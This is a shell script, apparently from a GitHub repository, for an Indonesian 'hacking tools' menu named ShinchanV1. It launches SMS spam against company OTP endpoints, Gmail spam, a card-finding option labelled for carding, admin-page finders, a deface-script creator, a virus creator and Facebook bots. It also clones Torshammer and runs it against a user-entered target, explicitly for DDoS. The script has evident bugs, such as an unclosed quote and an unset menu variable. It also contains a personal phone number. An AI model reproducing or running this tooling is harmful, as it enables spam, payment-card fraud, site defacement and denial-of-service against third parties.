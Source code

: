 # ShinchanV1 
#!/system/xbin/bash
#Ngapain Lu BGSD! 
#Mau Copas 
#Idih Nih Aja Gua Sebagian Copas Bgsd !

clear
cd module
python2 please.py
blue='\033[34;1m'
green='\033[32;1m'  
purple='\033[35;1m'
cyan='\033[36;1m'
red='\033[31;1m'
white='\033[37;1m'                                           
yellow='\033[33;1m'
sleep 1
echo $red
cat asw.txt
echo ""
echo "\033[34;1m[$]\033[36;1m============================\033[34;1m[$]"
echo "\033[32;1mAuthor : Mr Shinchan"
echo "\033[37;1mFeat: AnonyMoon"
echo "\033[35;1mversion Tools: 1"
echo "\033[35;1mTeam : Team Semut Attacker"
echo "\033[33;1mKontak Me :  081534335856"
echo "\033[36;1mIndonesia Security Lite"
echo "\033[34;1m[$]\033[36;1m============================\033[34;1m[$]"
echo ""
echo "\033[32;1mOke Silahkan Dipilih Toolsnya:)?:"
echo "\033[36;1m"
echo "[===============================================[>"
echo $green "1.> Spam Sms Tokopedia"
echo "[===============================================]>"
echo $purple "2.> Spam Sms Telkomnyet"
echo "[===============================================]>"
echo $cyan "3.> Spam Sms Matahari Mall"
echo "[===============================================]>"
echo $red "4.> Spam Sms HooqTV"
echo "[===============================================]>"
echo $white "5.> Spam Sms KFC"
echo "[===============================================]>"
echo $green "6.> Spam Sms PHD"
echo "[===============================================]>"
echo $purple "7.> Spam Sms Whiskas"
echo "[===============================================]>"
echo $cyan "8.> Spam Sms ZiPAY"
echo "[===============================================]>"
echo $red "9.> Nyari CC buat Carding"
echo "[===============================================]>"
echo $white "10.> Spam Akun Gmail"
echo "[===============================================]>"
echo $green "11.> Whois LookUp"
echo "[===============================================]>"
echo $purple "12.> Upload Admin Finder"
echo "[===============================================]>"
echo $cyan "13.> Script Deface Creator"
echo "[===============================================]>"
echo $red "14.> ReConDog Buat Information gathering"
echo "[===============================================]>"
echo $white "15.> Admin Login Finder"
echo "[===============================================]>"
echo $green "16.> Virus VbugMaker Creator"
echo "[===============================================]>"
echo $purple "17.> dowload script deface orang"
echo "[===============================================]>"
echo $cyan "18.> Autolike Facebook"
echo "[===============================================]>"
echo $red "19.> Facebook Auto_Reaction"
echo "[===============================================]>"
echo $white "20.> Bot Komentar Facebook"
echo "[===============================================]>"
echo $green "21.> Install txtool"
echo "[===============================================]>"
echo $purple "22.> install sqlscan"
echo "[===============================================]>"
echo $cyan "23.> install hash-buster"
echo "[===============================================]>"
echo $red "24.> Install Red_Hawk"
echo "[===============================================]>"
echo $white "25.> Install Torshammer buat DDOS website"
echo "[===============================================]>"

if [ $bro = 1 ] || [ $bro = 1 ]
then
clear
figlet "Mr Shinchan" | lolcat
php tp.php
fi

if
[ $bro = 2 ] || [ $bro = 2 ]
then
clear
toilet "Mr Shinchan"
php t.php
fi

if [ $bro = 3 ] || [ $bro = 3 ]
then
figlet "Mr Shinchan"
php mataharimall.php
fi

if [ $bro = 4 ] || [ $bro = 4 ]
then
clear
toilet "Mr Shinchan"
php hooq.php
fi

if [ $bro = 5 ] || [ $bro = 5 ]
then
clear
toilet -f slant --gay "Mr Shinchan"
php kfc.php
fi

if [ $bro = 6 ] || [ $bro = 6 ]
then
clear
toilet -f mono12 -F gay "Mr Shinchan"
php phd.php
fi

if [ $bro = 7 ] || [ $bro = 7 ]
then
clear
toilet "Mr Shinchan
php whiskas.php
fi

if [ $bro = 8 ] || [ $bro = 8 ]
then
clear
figlet "Mr Shinchan"
php zipay.php
fi

if [ $bro = 9 ] || [ $bro = 9 ]
then
clear
toilet "Mr Shinchan"
php key.php
fi

if [ $bro = 10 ] || [ $bro = 10 ]
then
clear
toilet "Mr Shinchan"
python2 SpamMail.py
fi

if [ $bro = 11 ] || [ $bro = 11 ]
then
clear
toilet "Mr Shinchan"
python2 whs.py
fi

if [ $bro = 12 ] || [ $bro = 12 ]
then
clear
toilet "Mr Shinchan"
python2 upf.py
fi

if [ $bro = 13 ] || [ $bro = 13 ]
then
clear
toilet "Mr Shinchan"
python2 create.py
fi

if [ $bro = 14 ] || [ $bro = 14 ]
then
clear
toilet "Mr Shinchan"
python2 dog.py
fi

if [ $bro = 15 ] || [ $bro = 15 ]
then
clear
toilet "Mr Shinchan"
python2 gam.py
fi

if [ $bro = 16 ] || [ $bro = 16 ]
then
clear
toilet "Mr Shinchan"
python2 anvima.py
fi

if [ $bro = 17 ] || [ $bro = 17 ]
then
clear
toilet "Mr Shinchan"
python2 htmd.py
fi

if [ $bro = 18 ] || [ $bro = 18 ]
then
clear
toilet "Mr Shinchan"
php autolike.php
fi

if [ $bro = 19 ] || [ $bro = 19 ]
then
clear
toilet "Mr Shinchan"
python2 auto_reaction.py
fi

if [ $bro = 20 ] || [ bro = 20 ]
then
clear
figlet "Mr Shinchan" | lolcat
python2 botkomen.py
fi

if [ $bro = 21 ] || [ $bro = 21 ]
then
clear
figlet "Mr Shinchan" | lolcat
git clone https://github.com/kuburan/txtool
mv txtool $HOME
cd $HOME/txtool
python2 install.py
python2 update.py
txtool
fi


if [ $bro = 22 ] || [ bro = 22 ]
then
clear
toilet -f slant -F gay "Mr Shinchan" 
pkg install update && pkg install upgrade
pkg install git
pkg install php
cd module
php sqlscan.php
fi

if [ $bro = 23 ] || [ $bro = 23 ]
then
clear
toilet -f mono12 -F gay "Mr Shinchan" 
apt upgrade
apt install python2
apt install git
git clone https://github.com/UltimateHackers/Hash-Buster
mv Hash-Buster $HOME
cd $HOME/Hash-Buster
python2 hash.py
fi

if [ $bro = 24 ] || [ $bro = 24 ]
then
clear
toilet -f standard -F gay "Mr Shinchan" 
echo "\033[33;1muntuk tutorial kunjungi:" "\033[36;1m https://youtu.be/h2I5HU3W-so"
sleep 3
apt update
apt install git
apt install php
git clone https://github.com/Tuhinshubhra/RED_HAWK
mv RED_HAWK $HOME
cd $HOME/RED_HAWK
chmod +x rhawk.php
php rhawk.php
fi

if [ $bro = 25 ] || [ $bro = 25 ]
then
clear
toilet -f standard -F gay "Mr Shinchan" 
apt update
apt install git
apt install tor
git clone https://github.com/dotfighter/torshammer.git
mv torshammer $HOME
cd $HOME/torshammer
read -p "Masukan Target==>:" target
python2 torshammer.py -T -t target
fi
